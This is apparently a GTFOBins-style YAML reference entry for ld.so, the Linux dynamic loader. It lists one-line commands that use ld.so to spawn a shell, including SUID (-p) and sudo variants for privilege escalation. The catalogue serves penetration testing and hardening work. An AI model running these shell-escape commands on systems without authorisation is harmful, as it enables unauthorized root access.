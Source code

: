 ```yaml
---
description: |
  `ld.so` is the Linux dynamic linker/loader, its filename and location might change across distributions. The proper path is can be obtained with:

  ```
  $ strings /proc/self/exe | head -1
  /lib64/ld-linux-x86-64.so.2
  ```
functions:
  execute-interactive:
    - code: /lib/ld.so /bin/sh
  suid-enabled:
    - code: ./ld.so /bin/sh -p
  sudo-enabled:
    - code: sudo /lib/ld.so /bin/sh
---
```

